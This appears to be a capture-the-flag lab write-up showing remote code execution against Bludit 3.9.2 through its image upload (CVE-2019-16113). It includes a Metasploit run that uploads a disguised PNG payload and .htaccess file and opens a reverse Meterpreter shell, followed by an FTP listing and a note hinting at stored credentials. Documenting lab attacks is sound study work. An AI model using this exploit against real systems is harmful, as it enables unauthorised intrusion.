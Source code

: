 ## RCE via Image Upload
Bludit version `3.9.2` is vulnerable to remote code execution because of weak image upload feature.

### Related Topics
https://www.cvedetails.com/cve/CVE-2019-16113/

https://nvd.nist.gov/vuln/detail/CVE-2019-16113

https://www.exploit-db.com/exploits/47699

```
msf6 exploit(linux/http/bludit_upload_images_exec) > exploit

[*] Started reverse TCP handler on 10.10.14.33:4444 
[+] Logged in as: fergus
[*] Retrieving UUID...
[*] Uploading LgMMYgervf.png...
[*] Uploading .htaccess...
[*] Executing LgMMYgervf.png...
[*] Sending stage (39282 bytes) to 10.10.10.191
[+] Deleted .htaccess
[*] Meterpreter session 1 opened (10.10.14.33:4444 -> 10.10.10.191:57718) at 2021-04-01 22:12:21 +0300

meterpreter > getuid
Server username: www-data (33)
```

## Custom FTP folder
```
pwd
/ftp
ls -l
total 10920
-rw-r--r-- 1 root root 10899227 Nov 27  2019 D5100_EN.pdf
-rw-r--r-- 1 root root   271056 Nov 27  2019 config
-rw-r--r-- 1 root root      828 Nov 27  2019 config.json
-rw-r--r-- 1 root root      260 Nov 27  2019 note.txt
```

### note.txt
```
Hey Sophie
I've left the thing you're looking for in here for you to continue my work
when I leave. The other thing is the same although Ive left it elsewhere too.

Its using the method we talked about; dont leave it on a post-it note this time!

Thanks
Shaun
```
